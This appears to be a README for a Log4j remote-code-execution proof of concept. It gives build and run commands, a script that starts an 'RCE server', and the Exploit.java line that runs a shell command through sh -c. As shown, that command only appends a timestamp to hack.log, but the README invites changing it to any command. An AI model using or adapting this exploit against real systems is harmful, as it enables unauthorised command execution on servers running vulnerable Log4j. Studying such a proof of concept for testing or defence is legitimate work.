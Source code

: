 ## Build: `./build.sh`

## Start log4j RCE Server: `./start-log4j-rce-server.sh`

## Test
`java -cp log4j-rce-1.0-SNAPSHOT-all.jar log4j`
Check if you get logs in hack.log from current folder

You can change this line 
`String[] cmds = { "sh", "-c", "echo 'Exploit at '" + getDateString() + " >> ./hack.log" };`
in file apache-log4j-poc/src/main/java/Exploit.java
to whatever command you like then rebuild
